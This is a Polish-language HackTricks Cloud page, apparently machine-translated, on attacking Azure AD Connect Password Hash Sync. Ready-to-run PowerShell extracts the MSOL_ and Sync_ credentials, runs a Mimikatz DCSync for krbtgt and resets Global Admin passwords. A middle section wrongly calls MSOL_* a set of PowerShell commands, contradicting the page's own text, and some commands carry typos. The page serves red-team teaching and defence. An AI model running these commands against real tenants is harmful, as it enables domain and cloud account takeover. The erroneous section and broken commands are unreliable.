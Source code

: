 # Az - PHS - Synchronizacja hasła

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Synchronizacja hasła** jest jedną z metod logowania używaną do osiągnięcia hybrydowej tożsamości. **Azure AD Connect** synchronizuje skrót skrótu hasła użytkownika z lokalnej instancji Active Directory do chmurowej instancji Azure AD.

<figure><img src="../../../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

To jest **najczęstsza metoda** używana przez firmy do synchronizacji lokalnej AD z Azure AD.

Wszyscy **użytkownicy** i **skrót skrótów hasła** są synchronizowani z lokalnej instancji do Azure AD. Jednak **hasła w postaci tekstu jawnego** lub **oryginalne skróty** nie są wysyłane do Azure AD.\
Ponadto, **wbudowane** grupy zabezpieczeń (takie jak administratorzy domeny...) nie są synchronizowane z Azure AD.

Synchronizacja **skrótów** odbywa się co **2 minuty**. Jednak domyślnie **wygaśnięcie hasła** i **wygaśnięcie konta** nie są synchronizowane w Azure AD. Dlatego użytkownik, którego **hasło lokalne wygasło** (niezmienione), może nadal **uzyskiwać dostęp do zasobów Azure** za pomocą starego hasła.

Kiedy użytkownik lokalny chce uzyskać dostęp do zasobu Azure, **uwierzytelnienie odbywa się w Azure AD**.

**PHS** jest wymagane dla funkcji takich jak **Ochrona tożsamości** i Usługi domen AAD.

## Pivoting

Po skonfigurowaniu PHS automatycznie tworzone są niektóre **konta uprzywilejowane**:

* Konto **`MSOL_<installationID>`** jest automatycznie tworzone w lokalnej AD. Temu kontu przypisywana jest rola **Konta synchronizacji katalogu** (patrz [dokumentacja](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)), co oznacza, że ma **uprawnienia replikacji (DCSync) w lokalnej AD**.
* Konto **`Sync_<nazwa serwera Azure ADConnect w lokalnej AD>_installationID`** jest tworzone w Azure AD. To konto może **resetować hasło DOWOLNEGO użytkownika** (synchronizowanego lub tylko w chmurze) w Azure AD.

Hasła dwóch wcześniej wymienionych kont uprzywilejowanych są **przechowywane w serwerze SQL** na serwerze, na którym zainstalowany jest **Azure AD Connect**. Administratorzy mogą wyodrębnić hasła tych uprzywilejowanych użytkowników w postaci tekstu jawnego.\
Baza danych znajduje się w `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`.

Możliwe jest wyodrębnienie konfiguracji z jednej z tabel, z których jedna jest zaszyfrowana:

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**Zaszyfrowana konfiguracja** jest zaszyfrowana za pomocą **DPAPI** i zawiera hasła użytkownika `MSOL_*` w lokalnej AD oraz hasło **Sync\_\*** w AzureAD. Dlatego kompromitując te dane, możliwe jest podniesienie uprawnień do AD i AzureAD.

Można znaleźć [pełny przegląd tego, jak te poświadczenia są przechowywane i odszyfrowywane w tej prezentacji](https://www.youtube.com/watch?v=JEIR5oGCwdg).

### Znajdowanie **serwera Azure AD Connect**

Jeśli **serwer, na którym zainstalowany jest Azure AD Connect**, jest dołączony do domeny (zalecane w dokumentacji), można go znaleźć za pomocą:
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### Wykorzystywanie MSOL\_\*

MSOL\_\* to zestaw poleceń PowerShell dostępnych w module MSOnline, który jest częścią narzędzia Azure AD Connect. Te polecenia są używane do zarządzania usługą Azure Active Directory (Azure AD). Jednakże, niektóre z tych poleceń mogą być wykorzystane w celu uzyskania nieautoryzowanego dostępu lub przeprowadzenia ataku lateralnego w środowisku hybrydowym Azure AD Connect.

#### PHS (Password Hash Sync)

PHS (Password Hash Sync) to funkcja w Azure AD Connect, która synchronizuje skróty haseł użytkowników z lokalnej infrastruktury Active Directory do Azure AD. Ta funkcja jest używana do umożliwienia użytkownikom logowania się do usług w chmurze przy użyciu tych samych haseł, które używają do logowania się do lokalnych zasobów.

Atakujący może wykorzystać PHS do uzyskania skrótów haseł użytkowników z Azure AD i następnie przeprowadzić atak offline w celu złamania tych haseł. Jeśli atakujący uzyska dostęp do skrótów haseł, może to prowadzić do naruszenia poufności i bezpieczeństwa danych użytkowników.

#### Zabezpieczenia

Aby zabezpieczyć się przed nadużyciem MSOL\_\* i atakami na PHS, zaleca się podjęcie następujących działań:

1. Regularnie aktualizuj Azure AD Connect do najnowszej wersji, aby korzystać z najnowszych zabezpieczeń.
2. Upewnij się, że masz silne hasło dla konta usługi Azure AD Connect.
3. Ogranicz dostęp do konta usługi Azure AD Connect tylko do niezbędnych użytkowników.
4. Monitoruj logi zdarzeń Azure AD Connect w celu wykrywania podejrzanej aktywności.
5. Włącz monitorowanie i alarmowanie w przypadku podejrzanej aktywności związanej z PHS.

Przestrzeganie tych zaleceń pomoże w zabezpieczeniu środowiska hybrydowego Azure AD Connect przed nadużyciem MSOL\_\* i atakami na PHS.
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
Możesz również użyć [**adconnectdump**](https://github.com/dirkjanm/adconnectdump), aby uzyskać te poświadczenia.
{% endhint %}

### Nadużywanie Sync\_\*

Kompromitując konto **`Sync_*`**, możliwe jest **zresetowanie hasła** dowolnego użytkownika (w tym Globalnych Administratorów)
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
Jest również możliwe **zmodyfikowanie haseł tylko dla użytkowników chmury** (nawet jeśli jest to nieoczekiwane)
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
Możliwe jest również wykradnięcie hasła tego użytkownika.

{% hint style="danger" %}
Inną opcją jest **przydzielenie uprzywilejowanych uprawnień dla usługi głównej**, które użytkownik **Sync** ma **uprawnienia** do wykonania, a następnie **uzyskanie dostępu do tej usługi głównej** jako metody eskalacji uprawnień.
{% endhint %}

### Bezproblemowe SSO

Możliwe jest użycie Bezproblemowego SSO z PHS, co jest podatne na inne nadużycia. Sprawdź to w:

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## Odwołania

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLAN SUBSKRYPCJI**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi trikami hakerskimi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
